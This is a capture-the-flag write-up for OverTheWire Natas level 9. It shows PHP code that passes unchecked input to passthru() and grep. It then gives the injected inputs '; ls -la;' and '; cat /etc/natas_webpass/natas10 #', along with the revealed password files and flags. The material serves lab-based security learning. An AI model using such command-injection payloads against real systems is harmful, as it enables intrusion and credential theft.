 # Natas Level 8 → Level 9 Command Injection

## Previous Flag
<b>ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t</b>

## Goal
Username: natas9<br>
URL: http://natas9.natas.labs.overthewire.org<br>

Find words containing: <br>
Output:<br>
View sourcecode

## What I learned
```
passthru() has no checking input
Forms need to be check before press submit or very vulnerable
SQL injection   1=1, ' OR 1=1 -- are different than Command Injection
```

## Solution
```
Click View source code
http://natas9.natas.labs.overthewire.org/index-source.html

<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt"); 👀
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>

http://natas9.natas.labs.overthewire.org/dictionary.txt ⌨️            # Nothing useful

Find words containing: ; ls -la; ⌨️
Output:
total 476
drwxr-x---  2 natas9 natas9   4096 Jul 28 18:49 .
drwxr-xr-x 38 root   root     4096 Jul 28 18:49 ..
-rw-r-----  1 natas9 natas9    117 Jul 28 18:49 .htaccess
-rw-r-----  1 natas9 natas9     45 Jul 28 18:49 .htpasswd
-rw-r-----  1 natas9 natas9 460878 Jul 28 18:49 dictionary.txt
-rw-r--r--  1 root   root     2924 Jul 28 18:49 index-source.html
-rw-r-----  1 natas9 natas9   1185 Jul 28 18:49 index.php
Find words containing: ; cat /etc/natas_webpass/natas10 #
Output:
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu 🔐

Find words containing: ; cat /etc/natas_webpass/natas10; ⌨️
Output:
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu 🔐
```

## Flag
<b>t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu</b>

## Continue
[Continue](/overthewire/Natas0910.md)